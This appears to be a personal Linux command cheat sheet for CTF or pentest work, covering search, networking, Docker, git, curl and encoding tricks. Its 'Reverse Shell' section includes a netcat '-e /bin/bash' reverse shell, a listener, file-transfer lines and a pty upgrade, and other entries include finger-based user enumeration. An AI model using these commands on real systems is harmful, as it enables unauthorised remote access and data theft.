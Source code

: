 ## Search and Navigation
- `pwd` : Display the current working directory.
- `lsblk` : List mounted disks and partitions.
- `locate <file_name>` : Search for a file in the system.
- `which <command_name>` : Show the path of a command's executable.
- `history` : Display the history of executed commands.
- `find / -name "*...*" 2>/dev/null`: Search a file in the system 
- `tldr <tool>`: Display examples of use for different tools

## Networking & Services
- `telnet <host> 80` : Test connection to a service.
- `finger @<ip>` : List the users on a remote machine.
- `finger fabiano@<ip>` : Get specific information about a user.
- `wget -r -np -nH --cut-dirs=0 http://192.168.1.100:8000/` : Download all files/folders from a directory hosted on a Python web server.
- `ss -tulpn`: Display all the open port.

## System
- `kill {pid}`: Kill a process.
- `export VAR=value` : Create or modify an environment variable and make it available to child processes.

## Crypto & Certificates
- `openssl x509 -in key.pem -text -noout` : Analyze a X.509 certificate.
- `gpg --homedir /your/path/to/gpg_key -d file.gpg` : Decrypt a GPG-encrypted file (requires the corresponding private key or passphrase).  
- `gpg --encrypt -r <recipient> file.txt` : Encrypt a file for a specific recipient using their public key.

## Databases--homedir
- `sqlite3 filedb.sqlite` : Start an SQLite session on a `.sqlite` file.

## File
- `file <file_name>` : Display the file type.
- `ln -s /path/to/target /path/to/symlink`: Creat a symlink.

## Reverse Shell
- `python3 -c 'import pty; pty.spawn("/bin/bash")'` : Upgrade a reverse shell to a fully interactive shell.
- `nc -lvnp 4444`: Open port 4444
- `nc <ip> 4444 > file.txt`: Connect to a port on another machine and save the received data into file.txt 
- `nc -lvnp 4444 < file.txt`: Listen on port 4444 and send the contents of file.txt to any connected client.
- `nc <ip> 4444 -e /bin/bash`: Connect to the reverse shell with nc

## Compression & Decompression
- `tar -cf archive.tar folder/` : Create a TAR archive without compression.  
- `tar -xf archive.tar` : Extract a TAR archive without compression.  
- `tar -czf archive.tar.gz folder/` : Create a TAR archive compressed with Gzip.  
- `tar -xzf archive.tar.gz` : Extract a TAR archive compressed with Gzip.  
- `tar -cjf archive.tar.bz2 folder/` : Create a TAR archive compressed with Bzip2.  
- `tar -xjf archive.tar.bz2` : Extract a TAR archive compressed with Bzip2.  
- `tar -cJf archive.tar.xz folder/` : Create a TAR archive compressed with XZ.  
- `tar -xJf archive.tar.xz` : Extract a TAR archive compressed with XZ.  
- `gzip file.txt` : Compress a single file with Gzip, replacing the original file.  
- `gunzip file.txt.gz` : Decompress a Gzip file.  
- `bzip2 file.txt` : Compress a single file with Bzip2, replacing the original file.  
- `bunzip2 file.txt.bz2` : Decompress a Bzip2 file.  
- `xz file.txt` : Compress a single file with XZ, replacing the original file.  
- `unxz file.txt.xz` : Decompress an XZ file.  
- `zip -r archive.zip folder/` : Create a ZIP archive containing a folder and its contents. 
- `unzip archive.zip` : Extract the contents of a ZIP archive.  

## Docker
- `docker ps` : List all running containers.
- `docker ps -a` : List all containers (running and stopped).
- `docker images` : List all available Docker images.
- `docker build -t <image_name> .` : Build an image from a Dockerfile in the current directory.
- `docker run -it --rm <image_name>` : Run a container interactively and remove it after exit.
- `docker run -d --name <container_name> <image_name>` : Run a container in detached mode with a specific name.
- `docker exec -it <container_name> /bin/bash` : Open an interactive shell inside a running container.
- `docker stop <container_name>` : Stop a running container.
- `docker start <container_name>` : Start a stopped container.
- `docker restart <container_name>` : Restart a container.
- `docker rm <container_name>` : Remove a stopped container.
- `docker rmi <image_name>` : Remove a Docker image.
- `docker logs <container_name>` : Show the logs of a container.
- `docker inspect <container_name>` : Show detailed information about a container.
- `docker cp <container_name>:/path/in/container /path/on/host` : Copy a file from a container to the host.
- `docker cp /path/on/host <container_name>:/path/in/container` : Copy a file from the host to a container.
- `docker-compose up -d` : Start all services defined in a `docker-compose.yml` in detached mode.
- `docker-compose down` : Stop and remove containers, networks, and volumes created by `docker-compose up`.
- `docker system prune -a` : Remove all stopped containers, unused images, and unused networks.

## SSH

- `chmod 600 id_rsa`: Restricts permissions so only the owner can read/write the private key (600: 110 000 000 = rw- --- ---).
- `ssh -i id_rsa root@<ip>`: Connect as root using the private key.

## Github

- `git init` : initialize a repository in the current directory.  
- `git remote add origin <url>` : link the local folder to a remote repository.  
- `git branch -M main` : rename the main branch to `main` (optional).  
- `git push -u origin main` : first push and set the default upstream branch.  
- `git clone <url>` : clone a remote repository.  
- `git status` : show the state of working directory and staging area.  
- `git add <file|folder>` : add a file or folder to the staging area.  
- `git commit -m "message"` : create a commit with a message.  
- `git pull` : fetch and merge changes from the remote.  
- `git push` : push local commits to the remote repository.  
- `git log` : show commit history.  
- `git log -- <path>` : show commit history for a specific file or folder.  
- `git log --diff-filter=D --summary` : list deletions in history.  
- `git log --all --name-status | grep "Achievement"` : search for adds/modifies/deletes of a file across all history.  
- `git show --name-status <commit_id>` : show files changed in a commit (A/M/D/R).  
- `git show <commit_id>:<path>` : display the content of a file as it was in that commit.  
- `git checkout <commit_id>^ -- <path>` : restore the state just before that commit (useful for rename/deletion).  
- `git restore --source=<commit_id> -- <path>` : modern variant to restore a file/folder.  
- `git remote -v` : show configured remotes.  
- `git fetch origin`: Retrieve all information of remote repo 
- `git reset --hard origin/master`: Reset the local repository to match the remote repository



## Curl

- `curl <url>` : Perform a simple GET request.
- `curl -I <url>` : Fetch only the headers (HEAD request).
- `curl -v <url>` : Verbose mode (show request/response details).
- `curl -L <url>` : Follow redirects.
- `curl -k <url>` : Ignore SSL certificate errors (insecure).
- `curl -s <url>` : Silent mode (no progress bar/errors).
- `curl -o file.txt <url>` : Save output to a file.
- `curl -X POST <url>` : Force a POST request.
- `curl -d "param=value&param2=value2" <url>` : Send POST data (form-encoded).
- `curl -d @file.json -H "Content-Type: application/json" <url>` : Send JSON data from file.
- `curl -H "Header: value" <url>` : Add a custom header.
- `curl -A "User-Agent-Here" <url>` or `curl --user-agent "..." <url>` : Change the User-Agent.
- `curl -u user:pass <url>` : Send HTTP Basic Authentication.
- `curl --cookie "name=value" <url>` : Send cookies.
- `curl -c cookie.txt -b cookie.txt <url>` : Save and reuse cookies.
- `curl --proxy http://127.0.0.1:8080 <url>` : Route through a proxy (useful for BurpSuite).
- `curl --http2 <url>` : Force HTTP/2.
- `curl --interface <ip> <url>` : Use a specific network interface/IP.
- `curl -w "%{http_code}\n" -o /dev/null -s <url>` : Show only the HTTP status code.

## Echo & Output Tricks

- `echo "hello"` : Print text with a trailing newline (`\n`).
- `echo -n "hello"` : Print text **without** a trailing newline.
- `echo -e "line1\nline2"` : Enable interpretation of backslash escapes (`\n`, `\t`, etc.).
- `echo -n "dGVzdA==" | base64 -d` : Decode a Base64 string (`test`).
- `echo -n '{"username":"admin"}' | jq .` : Pretty-print JSON with `jq`.
- `echo -n "SGVsbG8=" | base64 -d | hexdump -C` : Decode Base64 and view in hex.
- `echo -n "<jwt>" | cut -d "." -f1 | base64 -d 2>/dev/null | jq .` : Decode JWT header.
- `echo -n "<jwt>" | cut -d "." -f2 | base64 -d 2>/dev/null | jq .` : Decode JWT payload.
- `echo "text" > file.txt` : Overwrite file with text.
- `echo "text" >> file.txt` : Append text to file.
- `echo -n "GET / HTTP/1.1\r\nHost: target\r\n\r\n" | nc target 80` : Manual HTTP request with netcat.
- `echo password | sudo -S command` : Provide password to sudo from stdin.
- `echo -n "68656c6c6f" | xxd -r -p` : Convert hex string to binary.